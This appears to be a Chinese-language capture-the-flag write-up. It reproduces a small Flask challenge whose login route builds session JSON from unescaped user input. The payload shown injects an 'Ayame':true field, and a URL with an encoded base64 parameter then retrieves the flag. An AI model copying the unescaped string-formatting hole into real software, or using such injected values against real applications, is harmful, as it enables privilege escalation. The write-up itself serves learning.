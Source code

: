 [題目](http://ctf.adl.tw:12005/)


從source 得到
```
from flask import Flask, request, make_response, redirect, session, render_template, send_file
import os
import json

app = Flask(__name__)
app.secret_key = os.urandom(32)

FLAG = os.environ.get('FLAG', 'ADL{TEST_FLAG}')
users_db = {
    'guest',
    'Ayame'
}


@app.route("/")
def index():

    if 'user_data' not in session:
        return render_template("login.html", message="Login Please :D")

    user = json.loads(session['user_data'])
    
    if user['Ayame'] == True and request.args.get("base64") == 'QXlhbWU=':
        return FLAG
    else:
        return render_template("welcome.html", username=user['username'])


@app.route("/login", methods=['POST'])
def login():
    data = '{"Ayame": false, "username": "%s"}' % (
        request.form["username"]
    )
    session['user_data'] = data
    return redirect("/")


@app.route("/logout")
def logout():
    session.clear()
    return redirect("/")


@app.route("/source")
def source():
    return send_file(__file__, mimetype="text/plain")


if __name__ == '__main__':
    app.run(threaded=True, debug=True)
```
我們利用輸入 post 到/login，新增欄位至session
```
輸入：name","Ayame":true,"hello":"123
```

再將
```
網址改成：http://ctf.adl.tw:12005/?base64=QXlhbWU%3D
```
按下`enter`，就會將base64內容傳過去，並且因為`=`在網址列中是投入參數，所以這邊我們改成ascii code
